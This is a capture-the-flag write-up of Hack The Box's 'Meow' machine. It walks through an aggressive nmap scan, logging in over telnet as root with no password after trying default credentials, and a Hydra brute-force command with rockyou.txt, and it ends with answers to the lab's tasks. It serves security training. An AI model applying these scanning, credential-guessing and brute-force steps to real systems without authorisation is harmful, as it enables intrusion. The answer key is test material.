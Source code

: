 ```yaml
---
title: Meow
date: 2022-04-07 13:39:00 +0530
categories: [Challenges, Hackthebox]
tags:
---
```


Hello Hackers,  

Meow is one of the Hackthebox's machine in the starting point category with the level of Very Easy. This machine introduces us to the Telnet protocol.

### Enumeration:
#### NMAP Scan: 
Nmap is a network mapper tool used to find open ports. To find open ports, run the below command.
```bash
$ nmap -Pn -A -T4 -vvv -oN scan_output.nmap <IP>
```
The above command does the followings,

`nmap` Initiates nmap tool   
`-Pn` Treat all hosts as online   
`-A` Enable agressive mode (OS Detection + Version Detection + Scripting Scanning + traceroute)  
`-T4` Enable agressive speed  
`-vvv` Verbosity with level 3  
`-oN` Normal Output to  a file "nmap_all"  
`10.129.195.171` Target IP

```bash
$ nmap -Pn -A -T4 -vvv -oN nmap_all 10.129.195.171
# Nmap 7.92 scan initiated Thu Apr  7 14:02:31 2022 as: nmap -Pn -A -T4 -vvv -oN nmap/all-ports 10.129.195.171
Nmap scan report for 10.129.195.171
Host is up, received user-set (0.37s latency).
Scanned at 2022-04-07 14:02:32 IST for 50s
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
23/tcp open  telnet  syn-ack Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr  7 14:03:22 2022 -- 1 IP address (1 host up) scanned in 51.05 seconds
```

In the above scan result, we can see that TCP port number 23 is open. TCP port 23 is the reserved port for the TELNET protocol.

As per Wikipedia, Telnet is an application protocol used on the Internet or local area network to provide a bidirectional interactive text-oriented communication facility using a virtual terminal connection.

Let's try to connect Telnet on port 23.

```bash
$ telnet 10.129.195.171 23
```
![telnet login](/assets/posts_assets/2022-04-07-Meow/2022-4-07-Meow-telnet-login.png)

We can see that it's asking for the TELNET login credentials. Since we don't have any login credentials, we can try the following common credentials,  

admin:admin  
administrator:administrator  
root:<no_password>

The first two login credentials were not working. However, username root with no password worked.

![telnet login success](/assets/posts_assets/2022-04-07-Meow/2022-4-07-Meow-telnet-login-success.png)

We can see the root flag is inside our home directory. To read,

```bash
root@Meow:~# cat flag.txt
```

### Bonus Tip:
If you want to crack the telnet username and password then try Hydra. Hydra is the fastest password cracking tool.

`hydra` Initiates Hydra tool  
`-L` List of usernames "usernames.txt"  
`-P` List of passwords "rockyou.txt"  
`10.129.195.171` Target IP  
`telnet` Service that we want to crack password for  
`-f` Exit once found successful login credential  
`-vV` Verbose

```bash
$ hydra -L usernames.txt -P rockyou.txt 10.129.195.171 telnet -f -vV
```

### Tasks:
Task 1: What does the acronym VM stand for?  
Answer: virtual machine

Task 2: What tool do we use to interact with the operating system in order to start our VPN connection?   
Answer: terminal

Task 3: What service do we use to form our VPN connection?   
Answer: openvpn

Task 4: What is the abreviated name for a tunnel interface in the output of your VPN boot-up sequence output?   
Answer: tun

Task 5: What tool do we use to test our connection to the target?   
Answer: ping

Task 6: What is the name of the tool we use to scan the target's ports?   
Answer: nmap

Task 7: What service do we identify on port 23/tcp during our scans?   
Answer: telnet

Task 8: What username ultimately works with the remote management login prompt for the target?   
Answer: root

Happy Hacking!

Warm Regards,  
ValluvarSploit
